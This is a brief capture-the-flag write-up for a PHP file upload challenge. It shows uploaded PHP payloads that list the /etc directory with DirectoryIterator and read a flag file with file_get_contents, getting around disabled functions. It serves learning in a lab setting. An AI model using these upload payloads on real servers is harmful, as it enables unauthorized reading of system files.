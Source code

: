 ### WTF php

Challenge was a classic file upload without file filter.
uploaded php file with phpinfo()

Restricted file() and system()

![Restricted file() and system()](img/disabled_func.png)

uploaded another php containing

```
<?php
$iterator=new DirectoryIterator('/../../../../../etc/');
while ($iterator->valid()) {
    echo $iterator->current()->getFilename() . '</br>';
    $iterator->next();
}

?>

```
outputed all files in etc directory

![outputed all files in etc directory](img/f1@g.png)

final php upload containing the flag contents

```
$file = file_get_contents('/../../../../etc/f1@g.txt');
echo $file;

```
![:)](img/flag.png)
